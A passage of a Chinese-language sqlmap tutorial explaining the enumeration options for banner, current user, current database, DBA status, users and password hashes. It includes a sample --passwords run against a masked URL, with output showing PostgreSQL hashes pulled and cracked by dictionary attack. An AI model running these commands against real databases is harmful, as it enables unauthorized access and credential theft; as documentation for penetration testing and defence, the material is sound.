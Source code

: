 参数：`-b,–banner`

大多数的数据库系统都有一个函数可以返回数据库的版本号，通常这个函数是version()或者变量@@version这主要取决与是什么数据库。

**用户**

参数：`-current-user`

在大多数据库中可以获取到管理数据的用户。

**当前数据库**

参数：`–current-db`

返还当前连接的数据库。

**当前用户是否为管理用**

参数：`–is-dba`

判断当前的用户是否为管理，是的话会返回True。

**列数据库管理用户**

参数：`–users`

当前用户有权限读取包含所有用户的表的权限时，就可以列出所有管理用户。

**列出并破解数据库用户的hash**

参数：`–passwords`

当前用户有权限读取包含用户密码的彪的权限时，sqlmap会现列举出用户，然后列出hash，并尝试破解。

```
$ python sqlmap.py -u "http://********/sqlmap/pgsql/get_int.php?id=1" --passwords -v 1
[...]
back-end DBMS: PostgreSQL
[hh:mm:38] [INFO] fetching database users password hashes
do you want to use dictionary attack on retrieved password hashes? [Y/n/q] y
[hh:mm:42] [INFO] using hash method: 'postgres_passwd'
what's the dictionary's location? [/software/sqlmap/txt/wordlist.txt]
[hh:mm:46] [INFO] loading dictionary from: '/software/sqlmap/txt/wordlist.txt'
do you want to use common password suffixes? (slow!) [y/N] n
[hh:mm:48] [INFO] starting dictionary attack (postgres_passwd)
[hh:mm:49] [INFO] found: 'testpass' for user: 'testuser'
[hh:mm:50] [INFO] found: 'testpass' for user: 'postgres'
database management system users password hashes:
[*] postgres [1]:
password hash: md5d7d880f96044b72d0bba108ace96d1e4
clear-text password: testpass
[*] testuser [1]:
password hash: md599e5ea7a6f7c3269995cba3927fd0093
clear-text password: testpass
```

可以看到sqlmap不仅勒出数据库的用户跟密码，同时也识别出是PostgreSQL数据库，并询问用户是否采用字典爆破的方式进行破解，

这个爆破已经支持`Oracle`和`Microsoft SQL Server`。
